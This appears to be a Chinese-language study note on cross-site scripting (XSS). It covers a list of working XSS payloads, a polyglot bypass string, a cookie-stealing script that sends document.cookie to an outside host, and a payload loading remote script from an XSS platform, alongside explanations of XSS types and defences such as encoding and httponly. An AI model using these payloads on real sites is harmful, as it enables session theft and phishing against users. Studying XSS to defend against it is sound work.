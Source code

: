 ## 常用payload
```
<scripT>prompt`1`</Script>
"><img src="1" onerror=prompt(2)>
<svg/onload=globalThis[`conf`+/irm/.source]`1`// X->
<a onClick="javascript:aler\u0074(2)">xss</a>  //t用的native编码
<textarea autofocus onfocus=alert(1)>

"><sCRiPt sRC=//xss.pt/5qx2></sCrIpT>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(123456) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
## XSS基础
	XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。
XSS分为 **储存型XSS**、**反射性XSS**、
**dom型XSS**
可能触发DOM型XSS的属性
document.write()
xxx.innerHTML=
document.location.replace()
document.referrer

	xss也是一种注入攻击，当web应用对用户输入过滤不严格，攻击者写入恶意的脚本代码（HTML、JavaScript）到网页中时，如果用户访问了含有恶意代码的页面，恶意脚本就会被浏览器解析执行导致用户被攻击

## 常用组合
==常用标签==\<a> \<body>\<iframe> \<img>\<script>\<svg>
==常用事件==
- 鼠标事件 \<onmousemove>\<onclick>\<onmouseover>
- 其他事件\<onerror>\<onfocus>\<onkeypress>\<onload>

==弹窗函数== alert() comfirm() prompt()

[XSS标签事件表](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
## XSS危害
网络钓鱼
窃取用户Cookies、弹广告刷流量、具备改页面信息、删除文章、获取客户端信息、传播蠕虫。
```
<script>
	document.write('<img src="http://192.168.1.1/xss/getcookie.php?cookie='+document.cookie+'" width=0 height=0 border=0/>');
</script>
```
## XSS防御
-  输入输出检查 
	-  首先是过滤。对诸如\<script>、\<img>、\<a>等标签进行过滤。
-   其次是编码。像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。  
-   最后是限制。通过以上的案例我们不难发现xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。
-  安全的编码函数
	- java: HtmlUtils.htmlEscape    [springboot安全编码解析](https://www.cnblogs.com/bcde/p/11527190.html)
	- php: htmlentities()、htmlentities()
- 缓解措施 httponly
## xss绕过
- 编码绕过原理应该是后端解析编码之类
- 大小写
## XSS平台
`<sCRiPt sRC=//xss.pt/5qx2></sCrIpT>`
`%3CsCRiPt%20sRC%3D%2F%2Fxss.pt%2F5qx2%3E%3C%2FsCrIpT%3E`
